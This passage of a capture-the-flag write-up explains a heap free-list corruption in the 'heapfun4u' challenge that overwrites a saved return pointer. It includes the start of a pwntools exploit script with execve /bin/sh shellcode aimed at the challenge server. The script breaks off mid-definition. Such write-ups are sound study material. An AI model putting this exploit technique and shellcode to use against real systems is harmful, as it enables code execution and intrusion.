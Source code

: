To find that backward pointer, it adds to the forward pointer, the size of the pointed chunks. If we can control a forward pointer and the area pointed by it, we have a write something where.

### Exploitation

The idea is to overwrite the saved rip pointer of the stack frame of the main function so that when we choose the option Leave, it will return to the address of a chunk where our shellcode is:

* Allocate 3 buffers
* Free buffer 2, then 1: buffer 1 will be at the top of the free list
* Allocate a fourth buffer that is as big as the two freed buffers combined: it should be placed right over buffers 1 and 2
* write in buffer 4:
  * a size that will lead to the saved rip address
  * padding to fill buffer 1
  * a fake allocated chunks
  * padding to fill the fake chunk
  * a fake freed chunk with a forward pointer that points to the buffer 1
* free buffer 2 a second time: saved rip is overwritten by the address of buffer 2
* write in buffer 4:
  * padding to fill buffer 1
  * shellcode
* leave

### Payload

Here is the script that implements the above steps:

```python
#!/usr/bin/env python2

from pwn import *

#PRINT=True
PRINT=False
PROMPT='| '

# http://shell-storm.org/shellcode/files/shellcode-603.php
shellcode  = "\x48\x31\xd2"                             # xor    %rdx, %rdx
shellcode += "\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68" # mov    $0x68732f6e69622f2f, %rbx
shellcode += "\x48\xc1\xeb\x08"                         # shr    $0x8, %rbx
shellcode += "\x53"                                     # push   %rbx
shellcode += "\x48\x89\xe7"                             # mov    %rsp, %rdi
shellcode += "\x50"                                     # push   %rax
shellcode += "\x57"                                     # push   %rdi
shellcode += "\x48\x89\xe6"                             # mov    %rsp, %rsi
shellcode += "\xb0\x3b"                                 # mov    $0x3b, %al
shellcode += "\x0f\x05";                                # syscall

# socat tcp-l:3957,reuseaddr,fork exec: heapfun4u
#r = remote('localhost', 3957)
r = remote('heapfun4u_873c6d81dd688c9057d5b229cf80579e.quals.shallweplayaga.me', 3957)

def recvuntil(rec='', p=PRINT):
    global r
    data = r.recvuntil(rec)
    if p:
        print(data)
    return data

def sendline(msg='', p=PRINT):
    global r
    r.sendline(msg)

def sr(rec=PROMPT, msg='', p=PRINT):
```